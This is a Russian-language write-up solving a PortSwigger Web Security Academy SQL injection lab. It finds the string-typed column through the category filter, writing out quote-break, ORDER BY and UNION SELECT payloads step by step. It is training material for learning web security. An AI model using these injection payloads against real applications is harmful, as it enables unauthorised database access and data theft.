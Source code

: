 # SQL injection UNION attack, finding a column containing text

## Scope

[ссылка на лабу](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-finding-columns-with-a-useful-data-type/sql-injection/union-attacks/lab-find-column-containing-text)

```
https://0ae10098047afc77a0e79a58006d0024.web-security-academy.net/
```

В данной лабе есть уязвимый к `SQL injection` фильтр категории.

Нужно найти столбец, в котором используются строки.

## Notes

Из задания известно, что `sqli` находится в фильтре категории, поэтому возьму `URL` и буду работать с ним:

```
https://0ae10098047afc77a0e79a58006d0024.web-security-academy.net/filter?category=Accessories
```

Теперь нужно найти обрамление параметра. Предположу, что запрос в БД Выглядит следующим образом:

```SQL
SELECT * FROM table WHERE category = 'Accessories'
```

Поверю это, передав следующий пейлоад:

```
Accessories' and false-- -
```

Товары не отобразились, значит я нашел обрамление. 

![](../images/Pasted%20image%2020250118184731.png)

Далее найду количество колонок с помощью `ORDER BY`:

```
Accessories' ORDER BY 4-- -ошибка
Accessories' ORDER BY 3-- -ОК
```

Значит у меня 3 колонки. Подставлю `UNION`, чтобы вывести свои данные на страницу:

```
Accessories' UNION SELECT NULL, NULL, NULL-- -ОК
```

Подставлю свои данные вместо `NULL`:

```
Accessories' UNION SELECT NULL, NULL, NULL-- -
```

Только сейчас заметил, что нужно вывести определенную строку) Ну ок.

![](../images/Pasted%20image%2020250118185254.png)


```
Accessories' UNION SELECT 'xCxqZ9', NULL, NULL-- -ошибка
Accessories' UNION SELECT NULL, 'xCxqZ9', NULL-- -ОК
```

![](../images/Pasted%20image%2020250118185426.png)

Лаба решена:3
